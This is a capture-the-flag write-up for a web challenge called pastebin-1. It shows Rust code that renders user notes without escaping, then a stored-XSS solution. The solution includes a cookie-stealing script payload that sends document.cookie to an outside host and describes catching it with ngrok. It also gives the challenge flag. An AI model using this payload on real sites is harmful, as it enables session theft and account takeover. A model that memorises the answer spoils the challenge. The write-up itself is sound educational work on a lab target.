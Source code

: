# Challenge Name: pastebin-1


![date](https://img.shields.io/badge/date-10.07.2021-brightgreen.svg)  
![solved in time of CTF](https://img.shields.io/badge/solved-in%20time%20of%20CTF-brightgreen.svg)   
![web category](https://img.shields.io/badge/category-Web-blueviolet.svg)   
![value](https://img.shields.io/badge/value-103-blue.svg)  


## Description

Ah, the classic pastebin. Can you get the admin's cookies?

pastebin-1.mc.ax

Admin bot https://admin-bot.mc.ax/pastebin-1 

Author : NotDeGhost

[main.rs](main.rs)

## Detailed solution

Opening the challenge link https://pastebin-1.mc.ax/

![image](https://user-images.githubusercontent.com/72421091/125499621-b9a44b65-1b88-40c2-ba7d-e37cd164b15e.png)

We can create notes

![image](https://user-images.githubusercontent.com/72421091/125499707-4f69ae48-8ca8-4b8c-a5ea-997482c0a6ea.png)
  
```html
<link rel="stylesheet" href="/style.css" /><div class="container">test</div>
```
Let's check the source code [main.rs](main.rs) 

We have a Rust web app, let's check the functions create and view notes 

```rust
async fn create(mut req: Request<State>) -> tide::Result {
    let Paste { content } = req.body_form().await?;
    let id = "abcdefghijklmnopqrstuvwxyz"
        .chars()
        .collect::<Vec<char>>()
        .choose_multiple(&mut rand::thread_rng(), 16)
        .collect::<String>();
    req.state().value.write().unwrap().insert(id.clone(), content);
    Ok(Redirect::new(format!("/view?id={}", id)).into())
}
```

```rust
async fn view(req: Request<State>) -> tide::Result {
    let Page { id } = req.query()?;
    let response = match req.state().value.read().unwrap().get(&id) {
        Some(content) => Response::builder(200)
            .content_type("text/html")
            .body(format!("\
                <link rel=\"stylesheet\" href=\"/style.css\" />\
                <div class=\"container\">\
                    {}\
                </div>\
            ", content)).build(),
        None => Response::builder(404).build()
    };
    Ok(response)
}
```
**Create** function save the POST request data and generate an id to view it with the **view** function

The **view** function output the content inside an html div  

So clearly we can put a javascrit code insid the note 

Let's test it

![image](https://user-images.githubusercontent.com/72421091/125501377-0a7ca4b0-15d5-48ba-b776-de33c720176d.png)

![image](https://user-images.githubusercontent.com/72421091/125501409-f5e35964-9e5a-44ab-bd45-e26fd85e8679.png)

We can use some XSS attacks

As mention in the description we need to seal the admin cookie

We can use some payload to steal the cookie https://github.com/s0wr0b1ndef/WebHacking101/blob/master/xss-reflected-steal-cookie.md  

```javascript
<script>var i=new Image;i.src="http://192.168.0.18:8888/?"+document.cookie;</script>
```
I have some probleme with port forwarding so i'm gonna use ngrok to create an http tunnel

- ngrok http 8000

![image](https://user-images.githubusercontent.com/72421091/125504832-861866f6-e66b-44f5-af52-e9c9150a7d1a.png)

- python http server

![image](https://user-images.githubusercontent.com/72421091/125503384-9e368242-1e94-4cc6-8ed1-7845c0b61cd9.png)

Let's create our payload 

![image](https://user-images.githubusercontent.com/72421091/125503692-56d686b7-b516-4f2b-ab96-dd3717863df4.png)

https://pastebin-1.mc.ax/view?id=cmvqigpkulajysnr

Let's go to the admin portal to submit our malicious note https://admin-bot.mc.ax/

![image](https://user-images.githubusercontent.com/72421091/125503967-0a6aeab7-1a92-4714-875e-507214ea9a16.png)

After submitting, the admin gonna visit our note

![image](https://user-images.githubusercontent.com/72421091/125504702-f9c86244-214c-4217-8fa0-af9d4fef6bfc.png)

We got our flag

## Flag

```
flag{d1dn7_n33d_70_b3_1n_ru57}
```
